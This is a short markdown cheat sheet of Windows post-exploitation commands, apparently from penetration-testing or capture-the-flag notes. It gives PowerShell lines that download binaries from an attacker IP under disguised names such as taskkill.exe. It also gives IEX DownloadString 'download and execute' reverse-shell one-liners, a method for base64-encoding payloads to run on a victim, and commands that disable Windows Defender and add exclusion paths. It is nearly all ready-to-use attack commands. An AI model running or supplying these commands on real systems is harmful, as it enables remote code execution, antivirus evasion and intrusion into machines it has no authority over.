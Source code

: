 ## Download File

```powershell
Invoke-WebRequest "http://10.10.14.2:80/taskkill.exe" -OutFile "taskkill.exe"
```

```powershell
wget "http://10.10.14.2/nc.bat.exe" -OutFile "C:\ProgramData\unifivideo\taskkill.exe"
```

## Reverse Shell

### Download and execute #reverseshell 
```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('http://<IP>:<port>/ipw.ps1')"

echo IEX(New-Object Net.WebClient).DownloadString('http://<IP>:<port>/PowerUp.ps1') | powershell -noprofile - #From cmd download and execute

iex (iwr '<IP>:<port>/ipw.ps1') #From PSv3
```

### base64 copy paste from Linux #reverseshell 

```bash
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0 # Run on linux machine

powershell -nop -enc <BASE64_ENCODED_PAYLOAD> # Run on victim windows
```


## Windows Features #windows
#### Enable WinRM

```powershell
enable-psremoting -force #This enables winrm

# Change NetWorkConnection Category to Private
#Requires -RunasAdministrator

Get-NetConnectionProfile |
  Where{ $_.NetWorkCategory -ne 'Private'} |
  ForEach {
    $_
    $_|Set-NetConnectionProfile -NetWorkCategory Private -Confirm
  }
```

#### Disable Defender

```powershell
# Check status
Get-MpComputerStatus
Get-MpPreference | select Exclusion* | fl #Check exclusions
# Disable
Set-MpPreference -DisableRealtimeMonitoring $true
#To completely disable Windows Defender on a computer, use the command:
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force
# Set exclusion path
Add-MpPreference -ExclusionPath "C:\users\public\documents\magichk"
Set-MpPreference -ExclusionPath "C:\users\public\documents\magichk"

# Check exclusions configured via GPO
Parse-PolFile .\Registry.pol

KeyName : Software\Policies\Microsoft\Windows Defender\Exclusions
ValueName : Exclusions_Paths
ValueType : REG_DWORD
ValueLength : 4
ValueData : 1

KeyName : Software\Policies\Microsoft\Windows Defender\Exclusions\Paths
ValueName : C:\Windows\Temp
ValueType : REG_SZ
ValueLength : 4
ValueData : 0
```



WinPeas needs .Net 4.0 to run properly